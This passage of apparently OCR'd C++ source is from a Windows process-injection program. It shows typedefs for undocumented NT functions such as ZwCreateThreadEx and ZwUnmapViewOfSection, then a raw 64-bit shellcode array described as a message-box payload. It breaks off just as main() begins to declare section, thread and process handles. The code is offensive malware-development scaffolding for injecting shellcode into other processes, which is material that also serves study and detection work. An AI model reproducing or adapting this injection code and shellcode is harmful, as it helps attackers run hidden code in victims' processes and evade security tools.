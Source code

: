 ```cpp
  ULONG             AllocationType,
  ULONG             Win32Protect
);

// ZwCreateThreadEx
typedef NTSTATUS(NTAPI* pZwCreateThreadEx)(
  _Out_ PHANDLE                 ThreadHandle,
  _In_ ACCESS_MASK              DesiredAccess,
  _In_opt_ POBJECT_ATTRIBUTES   ObjectAttributes,
  _In_ HANDLE                   ProcessHandle,
  _In_ PVOID                    StartRoutine,
  _In_opt_ PVOID                Argument,
  _In_ ULONG                    CreateFlags,
  _In_opt_ ULONG_PTR            ZeroBits,
  _In_opt_ SIZE_T               StackSize,
  _In_opt_ SIZE_T               MaximumStackSize,
  _In_opt_ PVOID                AttributeList
);

// ZwUnmapViewOfSection syntax
typedef NTSTATUS(NTAPI* pZwUnmapViewOfSection)(
  HANDLE            ProcessHandle,
  PVOID             BaseAddress
);

// ZwClose
typedef NTSTATUS(NTAPI* pZwClose)(
  _In_ HANDLE       Handle
);

unsigned char my_payload[] =

  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main(int argc, char* argv[]) {
  HANDLE sh; // section handle
  HANDLE th; // thread handle
  STARTUPINFOA si = {};
  PROCESS_INFORMATION pi = {};
  PROCESS_BASIC_INFORMATION pbi = {};
```